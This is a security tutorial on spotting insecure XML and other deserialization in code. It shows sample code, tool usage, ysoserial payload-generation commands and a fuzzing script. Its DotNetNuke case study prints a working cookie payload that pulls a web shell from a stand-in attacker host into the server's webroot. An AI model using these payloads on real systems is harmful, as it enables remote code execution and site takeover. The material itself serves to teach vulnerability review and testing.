 ## How to Spot XML Serialization/Deserialization 


Vulnerabilities

### 1. **Understand Serialization Basics**
   - **Serialization Example**:
     ```csharp
     MyClass obj = new MyClass();
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamWriter writer = new StreamWriter("file.xml"))
     {
         serializer.Serialize(writer, obj);
     }
     ```
   - **Deserialization Example**:
     ```csharp
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamReader reader = new StreamReader("file.xml"))
     {
         MyClass obj = (MyClass)serializer.Deserialize(reader);
     }
     ```

### 2. **Identify Entry Points for Deserialization**
   - **Cookies**:
     ```csharp
     string cookieValue = Request.Cookies["DNNPersonalization"].Value;
     var deserializedObject = DeserializeObject(cookieValue);
     ```
   - **Form Fields**:
     ```csharp
     string formData = Request.Form["serializedData"];
     var deserializedObject = DeserializeObject(formData);
     ```
   - **API Endpoints**:
     ```csharp
     [HttpPost]
     public IActionResult DeserializeData([FromBody] string data)
     {
         var deserializedObject = DeserializeObject(data);
         return Ok();
     }
     ```

### 3. **Review Code for Deserialization Functions**
   - **.NET Specific**:
     ```csharp
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamReader reader = new StreamReader("file.xml"))
     {
         MyClass obj = (MyClass)serializer.Deserialize(reader);
     }
     ```
   - **Other Languages**:
     - **Java**:
       ```java
       ObjectInputStream ois = new ObjectInputStream(new FileInputStream("file.ser"));
       MyClass obj = (MyClass) ois.readObject();
       ois.close();
       ```
     - **Python**:
       ```python
       import pickle
       with open('file.pkl', 'rb') as f:
           obj = pickle.load(f)
       ```
     - **PHP**:
       ```php
       $obj = unserialize($serializedData);
       ```

### 4. **Assess the Safety of Deserialization**
   - **Trusted Source Check**:
     ```csharp
     if (IsTrustedSource(data))
     {
         var obj = DeserializeObject(data);
     }
     ```
   - **Validation/Sanitization**:
     ```csharp
     if (ValidateData(data))
     {
         var obj = DeserializeObject(data);
     }
     ```

### 5. **Understand Common Vulnerable Patterns**
   - **Insecure Deserialization**:
     ```csharp
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamReader reader = new StreamReader("file.xml"))
     {
         MyClass obj = (MyClass)serializer.Deserialize(reader);
     }
     ```
   - **Gadgets**: Gadgets are pieces of code that can be used during deserialization to perform malicious actions. They are often found in libraries that the application uses.

### 6. **Use Static and Dynamic Analysis Tools**
   - **Static Code Analysis**:
     - **SonarQube**: Configure SonarQube to scan your codebase for deserialization patterns.
   - **Dynamic Analysis**:
     - **Burp Suite**: Intercept and modify serialized data in real-time.
     ```python
     import requests
     url = 'http://example.com/api/endpoint'
     payload = {'data': '<serialized_data>'}
     r = requests.post(url, data=payload)
     print(r.text)
     ```

### 7. **Test for Vulnerabilities**
   - **Proof of Concept (PoC)**:
     - **ysoserial.net**: Generate payloads for .NET deserialization.
     ```bash
     ysoserial.exe -o base64 -g ObjectDataProvider -f "calc"
     ```
   - **Automated Tools**:
     - **ysoserial** for Java:
       ```bash
       java -jar ysoserial.jar CommonsCollections1 "calc.exe" > payload.ser
       ```

### 8. **Perform Security Testing on Deserialization Code**
   - **Fuzzing**:
     - Use a tool like **Burp Intruder** to send malformed serialized data.
     ```python
     from boofuzz import *
     session = Session(
         target=Target(
             connection=SocketConnection("192.168.1.1", 9999, proto='tcp')
         ),
     )
     s_initialize("Request")
     s_static("GET /")
     s_string("fuzzdata")
     session.connect(s_get("Request"))
     session.fuzz()
     ```
   - **Review Dependencies**:
     - Check for third-party libraries with known vulnerabilities using tools like **Retire.js** or **Snyk**.

### 9. **Common Indicators of Vulnerability**
   - **Untrusted Data Sources**: Deserialization of data from cookies, user inputs, or external files without validation.
   - **Absence of Validation**:
     ```csharp
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamReader reader = new StreamReader("file.xml"))
     {
         MyClass obj = (MyClass)serializer.Deserialize(reader);
     }
     ```
   - **Dynamic Type Handling**:
     ```csharp
     Type type = Type.GetType(typeName);
     XmlSerializer serializer = new XmlSerializer(type);
     var obj = serializer.Deserialize(reader);
     ```
   - **Public Properties and Fields**:
     ```csharp
     public class MyClass
     {
         public string Name { get; set; }
         public int Age { get; set; }
     }
     ```

### 10. **Practical Example: DotNetNuke Case Study**
   - **Identify the Entry Point**: The `LoadProfile` function in DotNetNuke.
     ```csharp
     string cookieValue = Request.Cookies["DNNPersonalization"].Value;
     var deserializedObject = DeserializeObject(cookieValue);
     ```
   - **Understand the Deserialization Flow**:
     ```csharp
     public Hashtable LoadProfile()
     {
         string data = Request.Cookies["DNNPersonalization"].Value;
         return DeserializeHashTableXml(data, "profile");
     }

     public Hashtable DeserializeHashTableXml(string data, string rootName)
     {
         Hashtable hashtable;
         using (StringReader stringReader = new StringReader(data))
         {
             XmlSerializer xmlSerializer = new XmlSerializer(typeof(Hashtable), new XmlRootAttribute(rootName));
             hashtable = (Hashtable)xmlSerializer.Deserialize(stringReader);
         }
         return hashtable;
     }
     ```
   - **Assess the Payload**: Determine how a crafted payload can manipulate the deserialization process to execute arbitrary code.
     ```xml
     <profile>
         <item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
             <ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
                 <ProjectedProperty0>
                     <ObjectInstance xsi:type="FileSystemUtils" />
                     <MethodName>PullFile</MethodName>
                     <MethodParameters>
                         <anyType xsi:type="xsd:string">http://attacker.com/shell.aspx</anyType>
                         <anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/shell.aspx</anyType>
                     </MethodParameters>
                 </ProjectedProperty0>
             </ExpandedWrapperOfFileSystemUtilsObjectDataProvider>
         </item>
     </profile>
     ```

By following these examples and focusing on specific patterns, you can effectively spot and test for XML serialization/deserialization vulnerabilities in applications.